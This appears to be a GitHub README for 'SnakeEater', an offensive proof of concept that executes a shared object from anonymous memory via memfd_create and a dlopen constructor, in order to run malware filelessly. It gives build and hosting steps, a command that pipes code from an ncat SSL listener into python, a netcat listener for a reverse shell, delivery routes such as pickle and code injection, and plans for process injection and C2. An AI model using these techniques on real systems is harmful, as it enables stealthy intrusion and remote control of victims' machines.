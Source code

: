 # SnakeEater

### To start:

Run the following commands:


`cmake .`

`make`


Now you should have the libSnakeEater.so file in the current directory. Host this somewhere. 

#### For Example:
`python2 -m SimpleHTTPServer 8080`

Then invoke the script in whatever way (pickle, code injection, ssh, or etc)

`ncat -nvlp 4443 --ssl | python -`   <- i just learned this trick and I love it

you know, whatever...

Then set up a net cat listener on whatever server you configured in `library.cpp`


## Concept

This PoC works by using the `memfd_create` syscall to map a page of anonymous memory to a file descriptor, write a Shared Oject to that page, and then execute the loaded SO. The execution of our malware is caused by abusing the constructor called by dlopen defined in the source as:

`void __attribute__ ((constructor)) init_eater(void);`

This technique may be able to be expanded to execute plain ELFs via `fexecve` however that may show as a subprocess and be a tip-off.

# TBD

More research is still being done, and I hope to be able to implemnt a pure python version of the following:

* Remote process injection and local process cleanup
* Better C2 for the example (pupy didn't work)
	* and seriously plain tcp dup() shell? What is this 2005?
* Architecture detection (for use in code injection) to get correct SO
* in memory decryption of loaded so 
* pupy integration?
